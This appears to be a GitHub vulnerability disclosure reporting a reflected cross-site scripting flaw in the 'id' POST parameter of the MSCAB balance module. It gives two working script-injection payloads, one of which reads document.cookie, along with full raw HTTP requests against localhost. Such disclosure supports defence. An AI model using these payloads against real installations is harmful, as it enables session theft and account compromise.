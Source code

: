 BUG_Author: Xue Yue

Vulnerability url: /MSCAB/modules/balance/index.php?view=balancelist

POST parameter 'id' exists XSS vulnerability

Payload1:id="><script>alert(111)</script>

```
POST /MSCAB/modules/balance/index.php?view=balancelist HTTP/1.1
Host: localhost
Content-Length: 50
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/MSCAB/modules/balance/index.php?view=balancelist
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=4ucuktra2adujlr277p85iuap1
Connection: close

id=%22%3E%3Cscript%3Ealert%28111%29%3C%2Fscript%3E
```

![image](https://github.com/xyaly163/bug_report/blob/main/picture/xss1.png)

Payload2:id="><script>alert(document.cookie)</script>

```
POST /MSCAB/modules/balance/index.php?view=balancelist HTTP/1.1
Host: localhost
Content-Length: 62
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/MSCAB/modules/balance/index.php?view=balancelist
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=4ucuktra2adujlr277p85iuap1
Connection: close

id=%22%3E%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E
```

![image](https://github.com/xyaly163/bug_report/blob/main/picture/xss2.png)
